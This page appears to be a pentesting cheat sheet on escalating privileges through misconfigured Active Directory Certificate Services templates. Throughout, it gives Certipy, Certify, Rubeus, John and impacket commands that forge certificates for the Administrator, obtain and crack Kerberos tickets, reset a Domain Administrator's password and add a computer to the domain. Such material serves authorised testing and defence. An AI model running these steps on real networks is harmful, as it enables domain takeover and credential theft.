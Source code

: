 ```yaml
---
title: AD CS (Active Directory Certificate Services) Pentesting
description: AD CS is Public Key Infrastructure (PKI) implementation. The misconfiguration of certificate templates can be vulnerable to privilege escalation.
tags:
    - Active Directory
    - Privilege Escalation
    - Windows
refs:
    - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin
    - https://0xalwayslucky.gitbook.io/cybersecstack/active-directory/adcs-privesc-certificate-templates
date: 2023-03-05
draft: false
---
```


## Enumeration

```sh
# Dump general information
certutil -dump
# Dump information about certificate authority
certutil -ca
# List all templates
certutil -template
```

### Existing Certificates

```bash
Get-ChildItem cert:\
Get-ChildItem cert:\CurrentUser\
Get-ChildItem cert:\CurrentUser\My
Get-ChildItem cert:\LocalMachine\
Get-ChildItem cert:\LocalMachine\My
```

### Extract Certificates

```bash
$cert = Get-ChildItem -Path cert:\CurrentUser\My\<thumbprint>
Export-Certificate -Cert $cert -FilePath c:\Users\<username>\Desktop\user.cer
```

### Extract the Private Key from a Certificate

```bash
$pw = ConvertTo-SecureString "password123" -AsPlainText -Force
$certificate = Get-ChildItem -Path cert:\CurrentUser\My\<thumbprint>
Export-PfxCertificate -Cert $certificate -FilePath user.pfx -Password $pw
```

<br />

## Privilege Escalation with Vulnerable Template

### From Outside the Machine

We can use **[Certipy](https://github.com/ly4k/Certipy)** for finding vulnerable templates, requesting TGT, and authentication.
    
```bash
certipy find -vulnerable -stdout -u username@domain.local -p password -dc-ip <target-ip>
certipy req -u username@domain.local -p password -target <target-ip> -template <vuln-template-name> -ca EXAMPLE-CA -upn Administrator@domain.local
certipy auth -pfx administrator.pfx -dc-ip <target-ip>
# If you get the error like "Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)", sync the time with AD server.
sudo rdate -n <target-ip>
```

Now we get the NT hash so we can login the target machine using this hash by **Pass-The-Hash**.

### From Inside the Machine

We can use [Certify.exe](https://github.com/GhostPack/Certify) for enumerating the templates and requesting certificate.  
It can be downloaded from [here](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries).

```bash
# 1. Find
Certify.exe find /vulnerable

Certify.exe request /ca:dc.examle.com\example-CA /template:TemplateName /altname:Administrator
# Copy the cert.pem in the output then paste it to the cert.pem
vim cert.pem

# Convert PEM to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Request the TGT
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt
# if you gave the password for "cert.pfx", you need to specify the password
Rubeus.exe asktgt /user:Administrator /password:password123 /certificate:cert.pfx /ptt
# or output the file
Rubeus.exe asktgt /user:Administrator /certificate:<Thumbprint> /outfile:ticket.kirbi
```

Now we get the TGT (**`.kirbi`**) file.  
We can use it to the following parts:

- **Crack TGT**

```sh

kirbi2john admin_tgt.kirbi > hash.txt
# or
python2 /usr/share/john/kirbi2john.py ticket.kirbi > hash.txt

john --wordlist=wordlist.txt hash.txt
```

- **Pass-The-Ticket**

```sh
impacket-ticketConverter ticket.kirbi ticke.ccache
```

<br />

## Privilege Escalation with Microsoft Management Console (MMC)

If we find the template which contains vulnerable parameters, we can create a new certificate using the template and can gain access to the Administrator's account.  
There are some method to create the new one. However, this section provides the easiest way using MMC.  

### 1. Request a New “Malicious” Certificate with MMC

1. Right-click on the Windows icon, and select Run.
2. Enter **“mmc”** (Microsoft Management Console)* in the form and click OK. The console window opens.
3. In the MMC window, click **File → Add/Remote Snap-in.**.
4. Add the **“Certificates”** snap-in in the window then click OK.
5. Expand the Certificates in the left pane.
6. Right-click on the Personal and select **All Tasks → Request New Certificate**.
7. The Certificate Enrollment window, click Next twice.
8. In Request Certificates section, click the **“More information is required to enroll…”**.
9. In Certificate Properties window, choose types and enter values in the form.
    
    Subject name:
    
    - Type: Common name
    - Value: **vulncert** (specify an arbitrary name)
    
    Alternative name:
    
    - Type: User principal name
    - Value: **tester@abc.example.com**  (specify the impersonated name and the target domain)

10. Add each name and click OK.
11. Return to the Request Certificates section. Check on the certificate we want to request, then click Enroll.
12. After finishing, expand **Personal → Certificates**. We should see the new certificate is added.
13. Double-click on the certificate. The Certificate window opens.
14. In the Certificate window, select **Details** tab and choose **Subject Alternative Name**. We should see the principal name is our specified name e.g. tester@abc.example.com. If we can, click OK to close the window.
15. At the end, in the MMC window, right-click on the new certificate which we created and select **All Tasks → Export…** to export the certificate. The Certificate Export Wizard opens.
16. In Export Private Key section, select **“Yes, export the private key”** and click Next.
17. In Export File Format, it is usually okey the default .PFX format so click Next without any changes.
18. In Security section, check the Password and enter new password.
19. In File to Export section, enter the file name and Next.
20. Finally click Finish then we could export the new malicious certificate.

### 2. Impersonate User using the Malicious Certificate

If we create a new certificate, we can use it to impersonate the privileged user.

1. **Request Kerberos TGT (Ticket Granting Ticket).**
    
    **[Rubeus.exe](https://github.com/GhostPack/Rubeus)** is useful to do for that. For details, see [Privilege Escalation with Kerberos](/exploit/kerberos-pentesting/#privilege-escalation-with-kerberos).
    
    ```powershell
    Rubeus.exe asktgt /user:tester /enctype:aes256 /certificate:vulncert.pfx /password:password /outfile:tester.kirbi /domain:labc.example.com /dc:<ip_of_the_domain_controller>
    ```
    
    After that, we should get the TGT (.kirbi file).  
    We can gain access using the TGT by changing the password of the DA account.
    
2. **Change the Password of the DA (Domain Administrator) Account.**
    
    ```powershell
    # changepw: Change the password of the target user
    # /ticket: Specify the TGT file (.kirbi) we've generated
    # /new: New password for impersonated user
    # /targetuser: Specify the Domain Administrator account name
    Rubeus.exe changepw /ticket:tester.kirbi /new:newpass /dc:<ip_of_the_domain_controller> /targetuser:abc.example.com\<da_user_name>
    ```
    
3. **Get the Administrator’s Shell**
    
    Using **runas** command, we can gain access to the Administrator’s account.  
    Use the new password which we’ve given the previous section in prompt.
    
    ```powershell
    runas /user:abc.example.com\<da_user_name> cmd.exe
    ```

<br />

## Add Computer with Certipy

### 1. Request a New "Malicious" Certificate

```sh
# User Template
certipy req 'vuln.local/username:password@vuln.com' -ca VULN-CA  -template User
# Machine Template
certipy req 'vuln.local/machine-name:machine-password@vuln.com' -ca VULN-CA -template Machine

# After requesting it, use the output credential when authenticating
certipy auth -pfx user.pfx
certipy auth -pfx machine.pfx
```

### 2. Add Our Computer to the Domain

We can use the **addcomputer ([impacket](https://github.com/SecureAuthCorp/impacket))** which is usually used for AD CS (Active Directory Certificate Services) Privilege Escalation.

```sh
python3 ./impacket/examples/addcomputer.py '<domain-name>/username:password' -method LDAPS -computer-name 'PC-NAME' -computer-pass 'MyPcPassword'
# or
python3 ./impacket/examples/addcomputer.py '<domain-name>/username:password@<hostname>' -method LDAPS -computer-name 'PC-NAME' -computer-pass 'MyPcPassword'
```
